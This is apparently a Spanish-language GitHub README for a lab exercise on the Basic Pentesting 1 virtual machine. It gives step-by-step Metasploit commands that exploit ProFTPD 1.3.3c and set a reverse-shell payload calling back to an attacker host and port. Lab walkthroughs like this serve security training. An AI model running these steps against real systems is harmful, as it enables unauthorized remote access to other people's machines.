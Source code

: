 
# 🚀 FTP Exploitation - Basic Pentesting 1 

## 📚 Descripción
En esta documentación se detalla el proceso de explotación de la máquina BasicPentesting1, un sistema Linux con un servicio **FTP (ProFTPD 1.3.3c)** activo. A través de diferentes herramientas de pentesting, se identifican posibles vulnerabilidades y se utiliza **Metasploit** para su explotación.

El procedimiento incluye:

- **Identificación de la IP** de la máquina objetivo con **Netdiscover**.
- **Escaneo de puertos y detección de servicios** con **Nmap**.
- **Búsqueda de exploits** disponibles en **Metasploit**.
- **Configuración del exploit y payload** para obtener acceso al sistema.
- **Ejecución del exploit** y validación del acceso obtenido.

## ⛔ Advertencia
Este repositorio y su contenido han sido creados **exclusivamente con fines educativos, académicos y de investigación en ciberseguridad.**

❌ **Prohibido el uso malintencionado:** El uso de este código para atacar sistemas sin la autorización explícita de sus propietarios **está estrictamente prohibido** y puede violar leyes locales, nacionales e internacionales.

✅ **Entornos controlados:** Se recomienda ejecutar este exploit **únicamente en entornos de pruebas controlados y sistemas que poseas o cuentes con permiso explícito para auditar.**

⚖️ **Responsabilidad:** El autor de este repositorio **no se hace responsable** de cualquier daño, pérdida o acción legal derivada del uso inapropiado de este código.

**Al utilizar este repositorio, aceptas y comprendes estas condiciones.** Si no estás de acuerdo, por favor, no clones ni utilices este código.

**La ciberseguridad es una responsabilidad compartida. Úsalo con ética y respeto. 🚀**

## 🔨 Requisitos
Antes de comenzar, asegúrate de tener lo siguiente:
- **Máquina objetivo:** Basic Pentesting 1 (Linux)
- **Máquina atacante:** Kali Linux 
- **Herramientas necesarias:** Netdiscover, Nmap, Metasploit 

## 🎯 Uso
Identificar la IP de la máquina 
- Ejecuta Netdiscover para encontrar la dirección IP de la máquina objetivo.
- Asegúrate de que la máquina Basic Pentesting 1 y tu Kali Linux estén en la misma red Red NAT.

```
IP: 192.168.10.11
```
<p align="center">
  <img src="" alt="netdiscover" style="border-radius: 10px;">
</p>

<br>

Para identificar la versión del servicio FTP y el puerto en el que está escuchando, ejecuta Nmap sobre la máquina BasicPentesting1.
```
sudo nmap -sV 192.168.10.11
```
<p align="center">
  <img src="" alt="nmap" style="border-radius: 10px;">
</p>

<br>

Para comprobar si la versión de ProFTPD 1.3.3c es explotable, ejecuta Metasploit y realiza una búsqueda de exploits disponibles.
```
msf6 > search ProFTPD 1.3.3c
```
<p align="center">
  <img src="" alt="search" style="border-radius: 10px;">
</p>

<br>

Una vez identificado un exploit para **ProFTPD 1.3.3c**, sigue estos pasos para configurarlo y buscar payloads compatibles.
Si el comando search ProFTPD 1.3.3c muestra un exploit válido.
```
msf6 > use 0
```
<p align="center">
  <img src="" alt="use" style="border-radius: 10px;">
</p>

<br>

Después de seleccionar el exploit, verifica las opciones necesarias.
```
msf6 > show options
```
<p align="center">
  <img src="" alt="show_options" style="border-radius: 10px;">
</p>

<br>


Para ver los payloads compatibles con el exploit.
```
msf6 > show payloads
```
<p align="center">
  <img src="" alt="show_payload" style="border-radius: 10px;">
</p>

<br>

Selecciona el payload adecuado para conseguir una conexión inversa.
```
msf6 > set payload payload/cmd/unix/reverse
```
<p align="center">
  <img src="" alt="payload" style="border-radius: 10px;">
</p>

<br>

Una vez seleccionado el exploit y el payload adecuado, configura las opciones necesarias.
Ejecuta los siguientes comandos dentro de Metasploit.
```
msf6 > set rhosts 192.168.10.11
msf6 > set rport 21
msf6 > set lhost 192.168.10.4
msf6 > set lport 2222
```
<p align="center">
  <img src="" alt="configuracion" style="border-radius: 10px;">
</p>

<br>


Una vez configuradas las opciones, lanza el exploit.
```
msf6 > run
```
<p align="center">
  <img src="" alt="run" style="border-radius: 10px;">
</p>

<br>